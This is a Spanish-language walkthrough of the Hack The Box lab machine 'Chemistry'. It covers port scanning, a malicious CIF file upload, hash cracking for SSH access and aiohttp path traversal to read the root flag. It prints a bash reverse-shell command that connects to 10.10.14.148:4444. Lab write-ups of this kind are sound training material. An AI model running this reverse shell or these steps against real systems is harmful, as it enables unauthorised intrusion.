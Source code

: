 ![alt text](../../image/Chemistry.png)

|  MAQUINA  |  OS   | DIFICULTAD |  PLATAFORMA  |      IP       |
| :-------: | :---: | :--------: | :----------: | :-----------: |
| CHEMISTRY | LINUX |   FACIL    | HACK THE BOX | CHEMISTRY.HTB |
## *Reconocimiento*

Con la IP de la maquina encontrada hacemos un escaneo de puertos de nmap y ver que información puedo encontrar. Encuentro un puerto SSH y un HTTP en un puerto diferente al habitual.

![alt text](../../image/chemi1.png)

Como ya conozco la dirección en donde se ubica la pagina web, busco investigar un poco más haciendo una enumeración de directorios.

![alt text](../../image/chemi2.png)
![alt text](../../image/chemi3.png)

Hay un directorio para registrarnos, ingreso mis credenciales y me envía hacia el panel de la cuenta

![alt text](../../image/chemi4.png)

En el panel hay una opción para subir archivos de extensión CIF. Este trae un ejemplo de un archivo con la extensión requerida.

![alt text](../../image/chemi5.png)
![alt text](../../image/chemi6.png)
## *Análisis de vulnerabilidades*

No conocía sobre este tipo de archivo así que comencé a buscar información y sus posibles vulnerabilidades y pude encontrar un payload que podía añadir al archivo de ejemplo que tuve recientemente.

![alt text](../../image/chemi7.png)
![alt text](../../image/chemi8.png)

Añado el payload para que al tratar de ver el archivo por medio del panel este cree una reverse shell, mientras eso ocurre yo estaré en escucha.

![alt text](../../image/chemi9.png)

```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.148/4444 0>&1'
```

![alt text](../../image/chemi10.png)
![alt text](../../image/chemi11.png)
## *Explotación*

Ya con el inicio de sesión por medio de app puedo revisar las carpetas que acompañan al usuario y encuentro una base de datos en la carpeta instance, levanto un servidor con python y obtengo la base de datos para obtener los datos e investigar.

![alt text](../../image/chemi12.png)
![alt text](../../image/chemi13.png)
![alt text](../../image/chemi14.png)

Indagando encontramos un perfil de nombre rosa, tendré en cuenta este nombre para posibles ataques.

![alt text](../../image/chemi15.png)

Dentro de la base de datos encontrada se ven muchos usuarios y contraseñas hasheadas, entre ellas veo el nombre de usuario rosa

![alt text](../../image/chemi16.png)

Al desencriptar el hash tenemos la contraseña de rosa y con ella entramos por el puerto ssh y obtenemos acceso.

![alt text](../../image/chemi17.png)
![alt text](../../image/chemi18.png)
## *Post-Explotación*

Con Netstat veo que había una pagina corriendo así que quise saber con que tecnologías había sido montada, el servidor aiohttp/3.9.1 tiene una vulnerabilidad de path traversal y comienzo a probar rutas para saber si en verdad la vulnerabilidad sigue existiendo.

![alt text](../../image/chemi19.png)
![alt text](../../image/chemi20.png)

Cambio la ruta hacia la carpeta root y su posible archivo root.txt

![alt text](../../image/chemi21.png)
